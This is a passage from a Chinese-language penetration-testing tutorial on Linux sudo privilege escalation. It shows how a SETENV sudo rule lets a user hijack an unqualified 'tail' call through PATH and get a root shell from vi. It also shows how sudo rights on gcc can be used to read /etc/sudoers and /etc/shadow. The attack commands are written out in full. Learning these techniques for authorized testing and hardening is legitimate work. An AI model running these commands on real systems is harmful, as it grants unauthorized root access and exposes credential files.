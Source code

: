 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1679393639884-2cf3bcf3-0e93-4085-8008-7c0181b4b704.png#averageHue=%2357585d&clientId=u9a383795-2256-4&from=paste&height=157&id=u48944b39&originHeight=196&originWidth=1139&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=55207&status=done&style=none&taskId=uc0bbd228-acbe-4942-8b61-205e0be20ca&title=&width=911.2)
## 情景七 - setenv 环境变量提权
sudo运行时默认会启用**env_reset**选项将从命令行设置的环境变量复原，因此通常情况下，当使用sudo命令时，通过本地修改环境变量也没法替换目标文件来进行提权，但如果sudo在配置时为用户设置了**SETENV**选项，情况就不一样了。**SETENV**会允许用户禁用**env_reset**选项，允许sudo使用当前用户命令行中设置的环境变量。
**如下图**：sudo允许当前用户以root身份执行一个shell脚本，并为当前用户配置了SETENV，shell脚本是打印syslog最后几行。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1680505005449-55279daa-342e-4d0e-8db1-c70bdf386b6f.png#averageHue=%232a2c35&clientId=u8d06bc3d-128b-4&from=paste&height=123&id=ue56cb67b&originHeight=154&originWidth=1092&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=98812&status=done&style=none&taskId=ue497eb2b-f3f2-4f20-becc-c8941e395f2&title=&width=873.6)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1680506378252-a00f8163-cbd2-4cef-8429-bcf957c37a74.png#averageHue=%232a2c34&clientId=u8d06bc3d-128b-4&from=paste&height=77&id=u01fe78a7&originHeight=96&originWidth=523&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=60249&status=done&style=none&taskId=ue681310d-d383-4fb9-b6dc-058f7a17ce6&title=&width=418.4)
如果没有配置**SETENV**，这里是无法通过改环境变量把tail替换成一个vim命令来进行提权的。这里有**SETENV**，那么就可以设置环境变量 **(tail 命令没用绝对路径，可以冒充一波)**。
```bash
ln -s /bin/vi tail  # 给vi编辑器设置 tail 软链接 冒充 tail 命令

# 也可以把 vi 命令 复制到 /tmp 目录中 ，命名为 tail
```
**修改环境变量**
```bash
export PATH=.:$PATH  # 添加当前目录为 $PATH 环境变量
```
**sudo 提权**
```bash
sudo --preserve-env=PATH shell.sh

# --preserve-env 
# 会使用当前新的PATH作为环境变量，并禁用env_reset选项。
# 从而达到先执行我们伪造的tail命令的目的
```
进入`**vi**`编辑模式，再 `**:!/bin/bash**`** 提权成功！**
## 情景八- gcc 提权
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1680753415421-bef04b12-854f-4464-9fc9-875ba7a7c42f.png#averageHue=%23484c53&clientId=ueeb151a7-1155-4&from=paste&height=182&id=u280d478f&originHeight=228&originWidth=1230&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=107792&status=done&style=none&taskId=u450ff04f-88ee-4b3d-94d3-8f624ef1b56&title=&width=984)

1. **读取特权文件**
```bash
LFILE=/etc/sudoers
sudo gcc -x c -E "$LFILE"

sudo gcc -x c -E /etc/shadow

# -x <language>  指定以下输入文件的语言。根据文件的扩展名猜测语言。
# -x c 指定 c 语言编译
# -E  参数指定编译器只进行预处理，不进行编译和链接操作。
# 预处理器主要用于处理源代码中的预处理指令，如 #include 和 #define 等，将它们替换成对应的内容。
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1680754395321-c79f0858-d8a1-46ce-ac2f-67522bdb49d6.png#averageHue=%23382d49&clientId=ueeb151a7-1155-4&from=paste&height=249&id=u2b8157b5&originHeight=311&originWidth=867&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=97771&status=done&style=none&taskId=u09131a61-8ea5-461d-85d5-8edab40f431&title=&width=693.6)
文件被读取并解析为文件列表（每行一个），内容被显示为**错误消息**，因此这可能不适合读取任意数据。
```bash
LFILE=/etc/sudoers
sudo gcc @"$LFILE"

sudo gcc @/etc/shadow
# @文件      从 FILE 读取选项
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1680754679090-7d4ab038-6843-4391-82d1-0bac3dce8552.png#averageHue=%233d314b&clientId=ueeb151a7-1155-4&from=paste&height=428&id=u217aa275&originHeight=535&originWidth=953&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=267487&status=done&style=none&taskId=u999eb9ed-0af8-4218-ab59-a9b4364598c&title=&width=762.4)
